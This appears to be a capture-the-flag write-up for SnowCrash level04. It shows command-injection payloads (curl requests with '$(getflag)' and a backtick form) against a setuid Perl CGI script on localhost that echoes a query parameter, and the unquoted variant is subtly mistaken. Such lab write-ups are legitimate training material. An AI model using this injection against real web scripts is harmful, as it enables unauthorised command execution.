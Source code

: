 # context 

in the home directory we found a file with flag04 with suid and guid wihich mean that the it will be executed with the right of it's owner 
  
    level04@SnowCrash:~$ ls -la level04.pl
    -rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
    
# how to solve the problem 

from reading the file content we see that there is apache serveer runing on localhost with  4747 port 

the web site parse the query string params from url and print it with echo  in this the param is x 

we can try to pass a variable name to the x for exemple 
          
          localhost:4747/?x=ramoukha and we got => ramoukha.
let's inject the getflag command and see wat going to happen 
          
          curl localhost:4747/?x=$(getflag)
    or
    curl '127.0.0.1:4747/level04.pl?x=`getflag`'
    
and we got the flag 

